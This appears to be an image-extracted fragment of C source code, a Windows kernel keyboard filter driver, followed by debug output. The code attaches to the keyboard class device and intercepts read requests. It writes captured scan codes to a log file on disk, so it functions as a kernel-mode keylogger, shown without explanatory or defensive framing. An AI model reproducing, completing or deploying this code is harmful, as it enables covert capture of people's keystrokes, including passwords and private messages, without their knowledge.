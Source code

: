 ```c
                IO_STATUS_BLOCK io_status;
                ZwWriteFile(pzzz -> hLogFile, NULL, NULL, NULL, & io_status, & keys, strlen(keys), NULL, NULL);
                DbgPrint("Scan code '%s' successfully written to file.\n", keys);
            }
        }
    }
    return;
}
NTSTATUS DriverEntry(PDRIVER_OBJECT p, PUNICODE_STRING r) {
    int i;
    Pzzz pzzz;
    PDEVICE_OBJECT pgenericdevice;
    CCHAR ntNameBuffer[64] = "\\Device\\KeyboardClass0";
    STRING ntNameString;
    UNICODE_STRING uKeyboardDeviceName;
    HANDLE hThread;
    IO_STATUS_BLOCK file_status;
    OBJECT_ATTRIBUTES obj_attrib;
    CCHAR ntNameFile[64] = "\\DosDevices\\c:\\driverm\\z.txt";
    UNICODE_STRING uFileName;
    DbgPrint("DriverEntry Start");
    for (i = 0; i < IRP_MJ_MAXIMUM_FUNCTION; i++)
        p -> MajorFunction[i] = DispatchPassDown;
    p -> MajorFunction[IRP_MJ_READ] = abcRead;
    IoCreateDevice(p, sizeof(zzz), 0, FILE_DEVICE_KEYBOARD, 0, 1, & pgenericdevice);
    pgenericdevice -> Flags = pgenericdevice -> Flags | (DO_BUFFERED_IO | DO_POWER_PAGABLE);
    pgenericdevice -> Flags = pgenericdevice -> Flags & ~DO_DEVICE_INITIALIZING;
    RtlZeroMemory(pgenericdevice -> DeviceExtension, sizeof(zzz));
    pzzz = (Pzzz) pgenericdevice -> DeviceExtension;
    RtlInitAnsiString( & ntNameString, ntNameBuffer);
    RtlAnsiStringToUnicodeString( & uKeyboardDeviceName, & ntNameString, TRUE);
    IoAttachDevice(pgenericdevice, & uKeyboardDeviceName, & pzzz -> pakd);
    RtlFreeUnicodeString( & uKeyboardDeviceName);
    pzzz -> bThreadTerminate = 0;
    PsCreateSystemThread( & hThread, 0, 0, 0, 0, abc, pzzz);
    ObReferenceObjectByHandle(hThread, THREAD_ALL_ACCESS, 0, KernelMode, (PVOID * ) & pzzz -> pThreadObj, 0);
    ZwClose(hThread);
    InitializeListHead( & pzzz -> List);
    KeInitializeSpinLock( & pzzz -> spin);
    KeInitializeSemaphore( & pzzz -> sem, 0, MAXLONG);
    RtlInitAnsiString( & ntNameString, ntNameFile);
    RtlAnsiStringToUnicodeString( & uFileName, & ntNameString, TRUE);
    InitializeObjectAttributes( & obj_attrib, & uFileName, OBJ_CASE_INSENSITIVE, NULL, NULL);
    ZwCreateFile( & pzzz -> hLogFile, GENERIC_WRITE, & obj_attrib, & file_status, NULL, FILE_ATTRIBUTE_NORMAL, 0, FILE_OPEN_IF, FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0);
    RtlFreeUnicodeString( & uFileName);
    p -> DriverUnload = Unload;
    DbgPrint("DriverEntry End");
    return STATUS_SUCCESS;
}
```
```
DriverEntry Start
DispatchPassDown
DriverEntry End
Before Wait for semaphore in thread
abcRead numPendingIrps=0
abcReadOver numKeys=1 Flags=0 Scancode=21
abcReadOver After Semaphore Release numPendingIrps=1
abcRead numPendingIrps=0
After Wait for semaphore in thread
```